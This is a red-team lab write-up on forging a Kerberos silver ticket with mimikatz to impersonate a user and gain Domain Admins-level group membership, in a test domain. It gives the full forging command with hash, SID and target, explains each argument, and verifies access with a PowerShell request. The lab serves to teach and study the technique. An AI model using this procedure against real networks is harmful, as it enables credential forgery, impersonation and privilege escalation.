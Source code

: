 ```yaml
---
description: Credential Access
---
```


# Kerberos - Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.

This lab builds on the explorations in Kerberoasting where a TGS ticket got cracked.

## Execution <a id="execution"></a>

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit me as an attacker.

Below is a table with values supplied to mimikatz explained and the command itself:

| Argument | Notes |
| :--- | :--- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user` |
| /target:dc-mantvydas.offense.local | server hosting the attacked service for which the TGS ticket was cracked |
| /service:http | service type being attacked |
| /rc4:a87f3a337d73085c45f9416be5787d86 | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case |
| /user:beningnadmin | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155 | Forging user's RID - fun |
| /ptt | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately |

Getting our user's SID as explained in the first step in the above table:![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKOW-TxXGxgVJt_NsoH%2F-LKOT31MW-F9XQ9dl177%2Fsilver-tickets-whoami.png?alt=media&token=c5db8357-b6f6-4f28-81b0-fda6b5fd5655)Getting a user's SID

Issuing the final mimikatz command to create our forged \(silver\) ticket:

```text
attacker@victim mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```

Checking available tickets in memory with `klist` - note how the ticket shows our forged username `benignadmin` and a forged user id:![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKOW-TxXGxgVJt_NsoH%2F-LKOTZW-kHv8wYkCCzlI%2Fsilver-tickets-generated-ticket.png?alt=media&token=89480823-2f51-48a9-b5e0-322f814925fc)

Note in the above mimikatz window the `Group IDs` which our fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name |
| :--- | :--- |
| 512 | Domain Admins |
| 513 | Domain Users |
| 518 | Schema Admins |
| 519 | Enterprise Admins |
| 520 | Group Policy Creator Owners |

![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKOW-TxXGxgVJt_NsoH%2F-LKOVuIT9gVZ7i2Wlu2g%2Fsilver-tickets-groups.png?alt=media&token=7250ade2-eae1-43e2-b7d3-86037bd8c095)

Initiating a request to the attacked service with a TGS ticket - note that the authentication is successfull:

```text
attacker@victimInvoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```

![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKOW5yEVyaRsq-SW2bf%2F-LKOWwBBzah8KLDwu1gF%2Fsilver-tickets-httprequest.png?alt=media&token=c3d8bcd6-cf86-4f79-8f20-e001ab2fa2de)

